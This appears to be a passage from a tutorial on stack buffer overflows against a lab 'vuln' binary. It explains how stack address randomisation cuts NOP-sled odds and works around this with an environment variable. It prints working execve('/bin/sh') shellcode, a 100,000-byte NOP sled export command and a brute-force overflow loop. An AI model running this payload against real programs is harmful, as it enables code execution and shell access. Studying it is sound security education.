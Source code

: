 [Here](Resource/ec291bdf93b8619ddcd8a6e2b72b3364_stack_addr.c) is the link to the above mentioned code.

Compile it to a 32 bit binary as before. This is my output for a few test runs:
```
test@linux ~ $ ./stack_addr 
0xffe918bc
test@linux ~ $ ./stack_addr 
0xffdc367c
test@linux ~ $ ./stack_addr 
0xffeaf37c
test@linux ~ $ ./stack_addr 
0xffc31ddc
test@linux ~ $ ./stack_addr 
0xffc6a56c
test@linux ~ $ ./stack_addr 
0xffbcf9bc
test@linux ~ $ ./stack_addr 
0xffbcf02c
test@linux ~ $ ./stack_addr 
0xffbf1dcc
test@linux ~ $ ./stack_addr 
0xfffe386c
test@linux ~ $ ./stack_addr 
0xff9547cc
```

It seems that every time the variable is loaded at different addresses in the stack. The address can be represented as ```0xffXXXXXc```(where X is any hexadecimal digit). With some more testing, it can be seen that even the last half-byte(‘c’ over here) depends on the relative location of the variable inside the program. So in general, the address of a variable on the stack is ```0xffXXXXXX```. This amounts to 16^6 = 16777216 possible cases. It can be easily seen that the earlier method, mentioned above to exploit the stack, will now work with only 40/16777216 probability(40 is the length of NOP - sled, if any of those NOP bytes happen to be where the modified return address points, the shellcode will be executed). That means on an average, 1 in every 419431 runs, the shellcode will be executed.

Now that is quite depressing. The key point to note here is that the probability depended on the **length of the NOP sled**. Clearly by increasing its length we can execute our shellcode with greater probability. However, the length of the buffer is limited. We can’t get much increase in probability even by using the full buffer. Looks as if we need to find some other place to inject our nop sled + shellcode(i.e. modifying the second step in the three steps listed above).

It turns out that we have another candidate - **environment variable**!

We could insert the nop sled + shellcode in an environment variable. Keep in mind that all the environment variables themselves are loaded on the stack. Moreover, the size limit of environment variables is huge. It turns out that on my machine I can create a NOP sled of 100,000!

So lets create an environment variable ```SHELLCODE```:

export SHELLCODE=$(python -c 'print "\x90"*100000 + "\x31\xc0\x50\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x50\x89\xe2\x53\x89\xe1\xb0\x0b\xcd\x80"')

Now let’s choose any random address somewhere in the middle, say ```0xff881111```. Now run ```vuln``` program overriding the return address with this. To increase our chances of hittinh lets do this repeatedly using a ```for``` loop.
```
test@linux ~ $ for i in {1..100}; do ./vuln $(python -c 'print "A"*112 + "\x11\x11\x88\xff"'); done
```
